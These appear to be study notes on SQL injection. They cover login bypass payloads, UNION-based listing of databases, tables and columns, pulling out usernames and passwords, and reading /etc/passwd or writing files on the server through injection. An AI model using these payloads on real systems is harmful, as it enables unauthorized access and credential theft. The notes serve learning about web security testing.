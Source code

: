 * They are everywhere and very easy to make a mistake to make these exploits available:
    * give access to the database (sensitive info)
    * can be used to read local files outside www root
    * can be used to log in as admin and further exploit system
    * can be used to upload files

### Discovering SQL Injections in pages using POST

* Try to break the page using 'and', 'order by' or "'" => get error statement
* Try to change the SQL query: 

        normal => select * FROM accounts where username = 'pierre' and password='123456';

        hack => select * FROM accounts where username = 'pierre' and password='123456' and 1=1#';
        by inserting 123456' and 1=1# in the password field

* Bypassing login pages
    * inject in the password field:  123456' or 1=1# => statement that is always true
    * inject in the name field: admin' #' => ignore the rest of the statement (the password= part)

### SQL Injections in pages using GET

* Discover

        normal => select * from accounts where username = '$USERNAME' and password = '$PASSWORD'

        hacked => change url parameters to inject additional query options

* Reading database info
    * Determine number of columns: Try breaking the page via order by x statement, starting with big numbers and lowering until you find the correct number of columns
    * inject
            union select 1,2,3, ... ,x in url
    * inject
            union select 1,database(),user(),version(),5

* Finding database tables
    * inject:
            union select 1,table_name,null,null,5 from information_schema.tables where table_schema = 'current database'

* Extracting sensitive data (such as passwords)
    * Show all columns, by injecting:
            union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'table name'
    * Inject
            union select 1,username,password,is_admin,5 from 'table name'

### Read and Write File on the Server using SQL injections
   
* Read file by injecting:
        union select null,load_file('/etc/passwd'),null,null,null

* Write file by injecting (if you have correct permission):
        union select null,'example example',null,null,null into outfile '/tmp/phpAdmin/example.txt'
